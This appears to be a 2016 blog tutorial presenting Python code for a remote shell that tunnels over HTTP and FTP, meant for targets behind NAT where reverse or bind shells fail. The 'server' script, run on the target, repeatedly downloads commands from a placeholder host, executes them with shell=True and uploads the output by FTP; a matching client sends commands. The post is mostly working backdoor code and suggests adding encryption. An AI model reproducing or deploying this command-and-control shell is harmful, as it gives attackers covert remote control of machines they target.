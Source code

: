 ```yaml
---
layout: post
title: "Useful Python Scripts: HTTP&FTP Shell"
date: 2016-04-25 18:00:00 +0200
categories: Scripting
tags:
  - scripting
  - shell
  - python
author: Joe Schmoe
---
```


Some people have problems with being unable to port forward, so they can't use reverse shells. Most of the time you can't use a bind shell either, if your target is behind NAT. What do!?  
  
What you can do is use a web server to transfer commands and outputs. Let's do just that!  

## The Server

We will need to use a few libraries:
{% highlight python linenos %}
import urllib2, ftplib, subprocess, StringIO, time, os
{% endhighlight %}
- urllib2: For downloading commands.
- ftplib: For uploading output.
- subprocess: For executing commands.
- StringIO: For turning strings into file objects. Why this is needed will be explained later.
- time: For sleeping.
  
Now that we have everything we need let's begin.  
  
{ % highlight python linenos % }
import urllib2, ftplib, subprocess, StringIO, time
while True:
	try:
		command = urllib2.urlopen("http://server.com/input.txt").read()
	except Exception as e:
		print(str(e))
		time.sleep(20)
		
{ % endhighlight % }

Seems pretty simple. We try downloading the input file, containing a command to execute. If there's an exception (No internet connection, input.txt doesn't exist, internet is on fire, etc.), we display it and wait 20 seconds before trying again. Now let's do something with the received command.

{ % highlight python linenos % }
output = StringIO.StringIO(subprocess.check_output(command, shell=True))
{ % endhighlight % }

We'll use subprocess the execute the command and get the output. Then, we will use StringIO to turn the command into a file object. Now let's upload the output to the FTP server.

{ % highlight python linenos % }
ftp = ftplib.FTP("server.com")
ftp.login("username","password")
ftp.storbinary("STOR output.txt",output)
ftp.delete("input.txt")
ftp.quit()
ftp.close()
{ % endhighlight % }

We create an FTP object and login to a server of our choosing. Then, we use the STOR command to store our output as output.txt. ftplib requires the second argument to be a file object, and that's why we needed to use StringIO earlier. After that, we delete the input file since it's no longer needed, and close our connection. The server is done!

{ % highlight python linenos % }
import urllib2, ftplib, subprocess, StringIO, time, os
while True:
	try:
		command = urllib2.urlopen("http://server.com/input.txt").read()
		output = StringIO.StringIO(subprocess.check_output(command, shell=True))
		ftp = ftplib.FTP("server.com")
		ftp.login("username","password")
		ftp.storbinary("STOR output.txt",output)
		ftp.delete("input.txt")
		ftp.quit()
		ftp.close()
	except Exception as e:
		print str(e)
		time.sleep(20)
{ % endhighlight % }

**The Client**

The client is very analogous to the server, so I don't think there's much to explain.

{ % highlight python linenos % }
import urllib2, ftplib, time
while True:
	try:
		command = StringIO.StringIO(raw_input())
		
		ftp = ftplib.FTP("server.com")
		ftp.login("username","password")
		ftp.storbinary("STOR input.txt",command)
		try: ftp.delete("output.txt")
		except: pass
		ftp.quit()
		ftp.close()
		while True:
			try:
				output = urllib2.urlopen("http://server.com/output.txt").read()
				break
			except:
				time.sleep(5)
				continue
			
		print output
	except Exception as e:
		print str(e)
{ % endhighlight % }

We get the command and turn it into a file object, upload it, and delete the previous output (The try/except is there because if output.txt doesn't exist ftplib raises an exception). Then we try reading the output every 5 seconds, and print it when we succeed.


Some suggestions for improving the script:
- Make it use HTTP/FTP only.
- Encrypt data before sending it.
- You need to append "cd <directory>" before every command, because subprocess always uses the current directory. Perhaps you can make the script change the current working directory?
- Show current directory and a prompt.


Hope you enjoyed this article!  
Joe Schmoe
